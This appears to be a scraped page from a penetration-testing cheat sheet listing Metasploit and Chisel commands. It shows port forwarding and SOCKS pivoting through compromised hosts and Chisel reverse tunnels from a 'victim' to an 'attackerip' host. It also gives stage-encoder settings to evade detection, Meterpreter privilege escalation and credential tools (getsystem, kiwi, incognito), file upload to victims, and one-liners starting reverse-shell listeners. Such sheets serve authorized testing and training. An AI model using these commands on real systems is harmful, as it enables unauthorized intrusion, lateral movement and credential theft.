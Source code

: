 ##### Metasploit

```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006

use post/multi/manage/autoroute
set session x
run
+
use auxiliary/server/socks_proxy
run
```

##### Chisel

```powershell
- Attacker
chisel server -p 6666 --reverse
- Victim
chisel client attackerip:6666 R:2222:127.0.0.1:3306/tcp

Socks_Proxy
- Attacker
chisel server -p 6666 --socks5 --reverse
- Victim
chisel client attackerip:6666 R:5000:socks
```

* * *

# Metasploit

##### Payload Configs

```bash
set enablestageencoding true
set stageencoder x64/zutto_dekiru
```

##### Metasploit Modules

```bash
load incognito
load kiwi
getsystem
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
execute -i H -f powershell < spawn x64 process
pgrep spool
exploit -j < run in background
sudo msfconsole -qx "use exploit/multi/handler ;set payload windows/meterpreter/reverse_tcp; set lhost tun0; set lport 4444;exploit;"
sudo msfconsole -qx "use exploit/multi/handler ;set payload windows/meterpreter/reverse_https; set lhost tun0; set lport 4444;exploit;"

```
